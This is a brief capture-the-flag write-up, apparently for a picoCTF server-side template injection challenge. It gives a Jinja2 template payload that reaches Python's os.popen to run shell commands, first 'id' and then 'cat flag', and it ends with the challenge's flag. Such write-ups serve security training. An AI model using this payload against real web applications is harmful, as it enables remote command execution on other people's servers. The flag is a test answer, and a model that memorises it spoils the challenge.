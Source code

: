 Open the page
Search for Server Side Template Injection
Look for the payload for remote command execution:

{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}

change the "id" to "cat flag" to display the flag

{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag').read()}}


picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_99fe4411}
